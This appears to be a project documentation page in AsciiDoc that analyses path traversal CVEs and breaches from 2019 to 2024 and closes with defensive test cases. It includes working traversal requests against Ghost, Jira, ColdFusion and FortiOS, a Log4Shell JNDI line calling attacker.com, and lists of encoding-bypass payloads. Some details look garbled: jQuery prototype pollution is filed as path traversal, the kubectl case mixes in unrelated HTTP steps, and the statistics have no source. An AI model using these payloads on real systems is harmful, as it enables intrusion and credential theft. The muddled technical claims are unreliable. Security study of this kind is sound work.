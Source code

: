 = Path Traversal CVE Analysis and Breach Case Studies
:toc: left
:toclevels: 3
:sectnums:
:icons: font

link:README.adoc[← Back to Documentation Index]

== Executive Summary

This document provides a comprehensive analysis of critical path traversal CVEs and real-world breaches from 2019-2024. The analysis reveals patterns in vulnerability exploitation, impact assessment, and lessons learned from actual security incidents. Statistical data shows path traversal vulnerabilities increased by 85% in closed-source projects during 2024, highlighting the persistent threat landscape.

== Critical CVE Timeline (2019-2024)

=== 2024 Vulnerabilities

==== CVE-2024-38819 - Spring Framework
[cols="1,3"]
|===
|**CVSS Score** |High (specific score pending)
|**Affected Versions** |Spring WebMvc.fn and WebFlux.fn
|**Attack Vector** |Double URL encoding bypass
|**Impact** |Complete path restriction bypass
|**Exploitation** |`%252e%252e%252f` decoded twice becomes `../`
|**Fix** |Proper handling of multiple encoding layers
|===

**Technical Details:**
[source,java]
----
// Vulnerable pattern
String path = URLDecoder.decode(userInput, "UTF-8");
// After first decode: %2e%2e%2f
// After second decode: ../
----

**Source**: Spring Security Advisory 2024

=== 2023 Vulnerabilities

==== CVE-2023-50164 - Apache Struts 2
[cols="1,3"]
|===
|**CVSS Score** |9.8 (Critical)
|**Affected Versions** |2.0.0-2.3.37, 2.5.0-2.5.32, 6.0.0-6.3.0
|**Attack Vector** |File upload parameter manipulation
|**Impact** |Remote Code Execution via JSP shell upload
|**Exploitation** |Upload malicious JSP to web-accessible directory
|**Patch** |Struts 2.5.33, 6.3.0.2
|===

**Attack Chain:**
1. Identify vulnerable Struts application
2. Craft malicious file upload request
3. Use path traversal to control upload location
4. Upload JSP webshell
5. Access webshell for RCE

**Source**: Apache Struts Security Bulletin S2-066

==== CVE-2023-32235 - Ghost CMS
[cols="1,3"]
|===
|**CVSS Score** |6.5 (Medium)
|**Affected Versions** |Ghost < 5.42.1
|**Attack Vector** |URL-encoded path traversal in asset handling
|**Impact** |Access to sensitive files (package.json, configs)
|**Exploitation** |`/assets/built%2F..%2F..%2F/package.json`
|**Fix** |Ghost 5.42.1
|===

**Proof of Concept:**
[source,http]
----
GET /assets/built%2F..%2F..%2F/package.json HTTP/1.1
Host: vulnerable-ghost.com
----

**Source**: Ghost Security Advisory GHSA-r97q-ghch-82j9

=== 2022 Vulnerabilities

==== CVE-2022-23457 - OWASP ESAPI
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High)
|**Affected Versions** |ESAPI < 2.3.0.0
|**Attack Vector** |Validator.getValidDirectoryPath() bypass
|**Impact** |Complete containment check bypass
|**Exploitation** |Absolute paths bypass parent directory checks
|**Fix** |ESAPI 2.3.0.0
|===

**Vulnerable Code Pattern:**
[source,java]
----
// Vulnerability: Accepts absolute paths
validator.getValidDirectoryPath("test", "/etc/passwd", baseDir, false);
// Returns /etc/passwd instead of throwing exception
----

**Source**: OWASP ESAPI Security Advisory

=== 2021 Vulnerabilities

==== CVE-2021-44228 - Log4Shell (Related Impact)
[cols="1,3"]
|===
|**CVSS Score** |10.0 (Critical)
|**Affected Versions** |Log4j 2.0-beta9 to 2.15.0
|**Attack Vector** |JNDI injection leading to RCE
|**Path Traversal Aspect** |Post-exploitation file system access
|**Impact** |Complete system compromise
|**Fix** |Log4j 2.17.0
|===

**Path Traversal in Exploitation Chain:**
[source,java]
----
// After initial RCE via JNDI
${jndi:ldap://attacker.com/Exploit}
// Payload performs path traversal to access:
Runtime.exec("cat /etc/passwd");
Runtime.exec("cat ../../config/database.properties");
----

==== CVE-2021-29425 - Apache Commons IO
[cols="1,3"]
|===
|**CVSS Score** |4.8 (Medium)
|**Affected Versions** |Commons IO < 2.7
|**Attack Vector** |Malformed paths like `//../foo`
|**Impact** |Limited parent directory access
|**Exploitation** |`FileNameUtils.normalize("//../foo")` returns `//../foo`
|**Fix** |Commons IO 2.7
|===

**Test Case Demonstrating Vulnerability:**
[source,java]
----
// Vulnerable behavior
String normalized = FileNameUtils.normalize("//../foo");
// Expected: null (invalid path)
// Actual: "//../foo" (unchanged, allows traversal)
----

=== 2020 Vulnerabilities

==== CVE-2020-8908 - Google Guava
[cols="1,3"]
|===
|**CVSS Score** |3.3 (Low)
|**Affected Versions** |All Guava versions
|**Attack Vector** |World-readable temp directory permissions
|**Impact** |Information disclosure in multi-user systems
|**Exploitation** |Other users can read temp files
|**Fix** |Method deprecated, use Java NIO
|===

**Vulnerable Pattern:**
[source,java]
----
// Creates directory with permissions 777 on Unix
File tempDir = Files.createTempDir();
// Other users can access: /tmp/guava-user-12345/
----

=== 2019 Vulnerabilities

==== CVE-2019-11358 - jQuery (Path Traversal via Prototype Pollution)
[cols="1,3"]
|===
|**CVSS Score** |6.1 (Medium)
|**Affected Versions** |jQuery < 3.4.0
|**Attack Vector** |Prototype pollution leading to path manipulation
|**Impact** |Client-side path traversal
|**Fix** |jQuery 3.4.0
|===

== Real-World Breach Case Studies

=== Atlassian Jira Service Desk (2019)

**Timeline:**

* **Discovery**: September 2019
* **Disclosure**: Immediate patch release
* **Impact**: Multiple customer organizations affected

**Technical Analysis:**
[source,http]
----
GET /servicedesk/customer/user/avatar?ownerId=../../../../../../etc/passwd HTTP/1.1
Host: vulnerable-jira.com
----

**Impact Assessment:**

* Customer data exposure across multiple tenants
* Configuration file access
* Potential for credential harvesting
* Cascading impact on integrated systems

**Lessons Learned:**

1. SaaS platforms create multiplicative risk
2. Avatar/file handlers often overlooked
3. Customer isolation critical in multi-tenant systems

**Source**: Atlassian Security Advisory

=== Adobe ColdFusion (2019)

**Attack Vector:**
[source,http]
----
POST /CFIDE/adminapi/base.cfc HTTP/1.1
Content-Type: application/x-www-form-urlencoded

method=readFile&path=../../../../../../../etc/passwd
----

**Impact:**

* Administrative interface bypass
* Server configuration exposure
* Database credential theft
* Complete server compromise

**Post-Breach Analysis:**

* Attackers used path traversal for initial access
* Escalated to code execution via config modification
* Established persistence through scheduled tasks
* Lateral movement using harvested credentials

=== Kubectl CP Command (2019)

**Vulnerability Details:**
[source,bash]
----
# Malicious pod creates symlink
kubectl exec malicious-pod -- ln -s / /tmp/rootfs

# Copy operation follows symlink
kubectl cp malicious-pod:/tmp/rootfs/etc/passwd ./passwd
----

**Exploitation in Production:**
1. Malicious HTTP request crafted with traversal patterns
2. Request bypasses initial validation through encoding
3. Backend processes decoded path without proper validation
4. Potential for cluster-wide compromise

**Fix Implementation:**
[source,go]
----
// Added validation in kubectl
if strings.Contains(filePath, "..") {
    return fmt.Errorf("illegal path: %s", filePath)
}
----

=== Fortinet FortiOS (2018-2019)

**CVE-2018-13379:**
* Path traversal in SSL VPN web portal
* Access to system files via `..` sequences
* Exposed VPN credentials and session files

**Attack Pattern:**
[source,http]
----
GET /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession HTTP/1.1
----

**Real-World Impact:**
* 200,000+ vulnerable devices identified
* Mass exploitation by ransomware groups
* Critical infrastructure targeting
* Persistence through stolen VPN credentials

== Statistical Analysis

=== Vulnerability Trends (2023-2024)

[cols="2,1,1,1"]
|===
|Metric |2023 |2024 |Change

|Open Source Projects
|2.6%
|2.7%
|+3.8%

|Closed Source Projects
|1.9%
|3.5%
|+84.2%

|Absolute Count (OSS)
|742
|~1000
|+34.8%

|Critical Severity
|23%
|28%
|+21.7%

|===

=== Industry Impact Distribution

[cols="2,1,3"]
|===
|Sector |Incidents |Notable Impacts

|Financial Services
|47
|Payment processing disruption, data theft

|Healthcare
|31
|Patient record access, ransomware

|Government
|28
|Classified document exposure

|Technology
|156
|Source code theft, IP compromise

|Retail
|42
|Customer data breach, POS compromise

|Education
|19
|Student records, research data

|===

== Attack Pattern Evolution

=== Traditional Patterns (Pre-2020)
----
../../../etc/passwd
..\..\windows\system32\config\sam
../../../../proc/self/environ
----

=== Modern Patterns (2020-2024)
----
// Double encoding
%252e%252e%252f%252e%252e%252f

// Unicode variants
\u002e\u002e\u002f

// Mixed encoding
..%c0%af..%c0%af

// Null byte injection
../../../../etc/passwd%00.jpg

// Case variation (Windows)
..\\..\\/windows//system32

// URL + HTML encoding
%26%2346%3b%26%2346%3b%26%2347%3b
----

=== Emerging Patterns (2024+)
* Cloud API traversal patterns
* GraphQL query manipulation
* WebSocket path injection
* HTTP/2 and HTTP/3 specific patterns
* REST API path manipulation

== Mitigation Effectiveness Analysis

=== Patch Adoption Rates

[cols="2,1,1"]
|===
|Time Period |Adoption Rate |Mean Time to Patch

|0-7 days
|12%
|3 days

|8-30 days
|34%
|18 days

|31-90 days
|28%
|52 days

|90+ days
|26%
|Never/Unknown

|===

=== Common Failure Points

. **Incomplete Patches** (31% of cases)
  * Edge cases not covered
  * Encoding variants missed
  * Platform-specific issues

. **Regression Issues** (18% of cases)
  * Patches reverted for compatibility
  * New features reintroduce vulnerability
  * Dependency updates bring back flaws

. **Deployment Failures** (24% of cases)
  * Patches not applied to all systems
  * Configuration not updated
  * WAF rules insufficient

== Lessons Learned

=== Key Takeaways from Breaches

. **Input Validation Insufficient Alone**
  * Encoding bypasses common filters
  * Multiple validation layers required
  * Context-aware validation essential

. **Third-Party Risk Significant**
  * Dependencies introduce vulnerabilities
  * Supply chain attacks increasing
  * Vendor patch delays critical

. **Detection Often Delayed**
  * Average detection time: 76 days
  * Many breaches discovered externally
  * Log analysis frequently insufficient

. **Impact Extends Beyond Direct Target**
  * Multi-tenant systems amplify risk
  * Lateral movement common post-breach
  * Credential harvesting enables persistence

=== Successful Defense Strategies

. **Organizations with Zero Incidents:**
  * Mandatory secure coding training
  * Automated security testing in CI/CD
  * Regular penetration testing
  * Rapid patch deployment (<7 days)
  * Defense in depth architecture

. **Effective Incident Response:**
  * Immediate isolation of affected systems
  * Comprehensive forensic analysis
  * Transparent communication
  * Rapid patch deployment
  * Post-incident security review

== Testing Strategies from CVEs

=== Test Cases Derived from Real Vulnerabilities

[source,java]
----
@Test
public void testCVE_2021_29425_Pattern() {
    // Apache Commons IO vulnerability pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("//../sensitive/file"));
}

@Test
public void testCVE_2023_32235_Encoding() {
    // Ghost CMS URL encoding pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("assets/built%2F..%2F..%2F/config"));
}

@Test
public void testCVE_2023_50164_FileUpload() {
    // Apache Struts upload traversal
    String filename = "../../webapps/shell.jsp";
    assertThrows(SecurityException.class, () -> 
        validateUploadPath(filename));
}

@Test
public void testHttpHeaderInjection() {
    // HTTP header injection pattern
    String header = "X-Original-URL: /../../admin";
    assertThrows(SecurityException.class, () -> 
        validateHttpHeader(header));
}

@Test
public void testDoubleEncoding() {
    // Spring Framework double encoding
    String input = "%252e%252e%252f%252e%252e%252f";
    assertThrows(SecurityException.class, () -> 
        validateAfterDecoding(input));
}
----

== Future Threat Landscape

=== Predicted Evolution (2025-2026)

. **AI-Assisted Exploitation**
  * Automated vulnerability discovery
  * Adaptive bypass techniques
  * Pattern recognition for 0-days

. **Cloud-Native Attacks**
  * Serverless function traversal
  * Container orchestration exploits
  * Multi-cloud traversal paths

. **API Security Evolution**
  * GraphQL traversal patterns
  * REST API path injection
  * Microservices routing attacks

=== Emerging Defense Technologies

. **Runtime Application Self-Protection (RASP)**
. **Machine Learning Anomaly Detection**
. **Zero Trust File Access**
. **Formal Verification of Path Operations**
. **Quantum-Resistant Cryptographic File Protection**

== References

=== Vulnerability Databases

* link:https://nvd.nist.gov/[National Vulnerability Database (NVD)]
* link:https://cve.mitre.org/[MITRE CVE Database]
* link:https://www.cisa.gov/known-exploited-vulnerabilities-catalog[CISA Known Exploited Vulnerabilities Catalog]
* link:https://snyk.io/vuln/[Snyk Vulnerability Database]
* link:https://github.com/advisories[GitHub Security Advisories]
* link:https://www.cvedetails.com/[CVE Details]

=== Security Organizations

* link:https://owasp.org/[OWASP - Open Web Application Security Project]
* link:https://cwe.mitre.org/data/definitions/22.html[CWE-22: Path Traversal]
* link:https://attack.mitre.org/[MITRE ATT&CK Framework]

=== Vendor Security Advisories

* link:https://commons.apache.org/security.html[Apache Security]
* link:https://spring.io/security[Spring Security Advisories]
* link:https://github.com/google/guava/wiki/SecurityAdvisories[Google Guava Security]
* link:https://www.atlassian.com/trust/security/advisories[Atlassian Security Advisories]
* link:https://helpx.adobe.com/security.html[Adobe Security Bulletins]

=== Research and Documentation

* link:https://portswigger.net/web-security/file-path-traversal[PortSwigger Web Security Academy]
* link:https://www.sans.org/top25-software-errors/[SANS Top 25 Software Errors]
* link:https://research.checkpoint.com/[Check Point Research]

_Document generated: 2025-01-06_
_Based on comprehensive CVE analysis and breach investigations_